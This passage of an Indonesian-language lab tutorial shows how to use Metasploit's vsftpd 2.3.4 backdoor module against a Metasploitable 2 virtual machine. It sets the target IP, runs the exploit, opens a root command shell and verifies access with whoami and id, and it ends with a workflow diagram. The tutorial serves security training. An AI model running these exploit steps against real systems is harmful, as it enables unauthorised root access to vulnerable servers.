     Kita bisa lihat bahwa `RHOSTS` (Remote Host / Target) adalah satu-satunya opsi yang **wajib** (`yes`) diisi.

5.  **Atur Target**: Set opsi `RHOSTS` ke alamat IP Metasploitable 2.

    ```bash
    msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.100.101
    RHOSTS => 192.168.100.101
    ```

6.  **Jalankan Eksploit**: Gunakan perintah `exploit` atau `run` untuk melancarkan serangan.

    ```bash
    msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

    [*] 192.168.100.101:21 - Banner: 220 (vsFTPd 2.3.4)
    [*] 192.168.100.101:21 - USER: Backdoor trigger sent.
    [*] Command shell session 1 opened (192.168.100.10:43215 -> 192.168.100.101:6200) at 2025-10-21 11:30:00 -0500
    ```

    **SUKSES\!** Baris `Command shell session 1 opened` menandakan Anda telah berhasil mendapatkan akses *shell* ke mesin target.

7.  **Verifikasi Akses**: Anda sekarang berada di dalam *shell* mesin target. Jalankan beberapa perintah Linux untuk membuktikannya.

    ```bash
    whoami
    root
    id
    uid=0(root) gid=0(root)
    ifconfig
    ... (akan menampilkan konfigurasi jaringan Metasploitable 2) ...
    ```

    Hasil `uid=0(root)` menunjukkan Anda memiliki hak akses tertinggi di sistem. Anda telah berhasil mengkompromikan target.

##### **Diagram Alur Kerja Metasploit**

```mermaid
graph TD
    A[Mulai di Kali Linux] --> B[Jalankan 'msfconsole'];
    B --> C{Cari Eksploit};
    C -- 'search vsftpd 2.3.4' --> D[Temukan 'exploit/unix/ftp/vsftpd_234_backdoor'];
    D --> E{Gunakan Eksploit};
    E -- 'use 0' --> F[Muat Modul];
    F --> G{Konfigurasi Opsi};
    G -- 'set RHOSTS 192.168.100.101' --> H[Target Ditetapkan];
    H --> I{Luncurkan Serangan};
    I -- 'exploit' --> J((Shell Terbuka!));
    J --> K[Akses Root di Metasploitable 2];

    style J fill:#d4edda,stroke:#155724,stroke-width:4px
```
